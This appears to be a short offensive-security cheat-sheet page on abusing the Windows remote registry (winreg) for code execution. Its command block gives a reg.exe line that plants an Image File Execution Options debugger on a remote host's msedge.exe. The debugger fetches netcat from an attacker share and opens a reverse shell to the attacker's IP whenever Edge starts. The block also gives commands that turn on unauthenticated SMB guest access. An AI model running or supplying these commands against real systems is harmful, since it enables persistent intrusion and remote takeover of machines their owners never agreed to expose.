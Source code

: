 ```yaml
---
tags:
  - tool
---
```

# winreg

Having remote access to the registry with write permissions effectively provides Remote Code Execution (RCE) capabilities.

## Capabilities

```powershell
# Execute payload once msedge.exe is executed
reg.exe add '\\$FQDN\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\$OUR_IP\share\nc.exe && nc.exe -e \windows\system32\cmd.exe $OUR_IP $PORT'

# Check if SMB guest authentication is enabled
reg.exe query HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth

# Enable SMB without authentication
reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
```
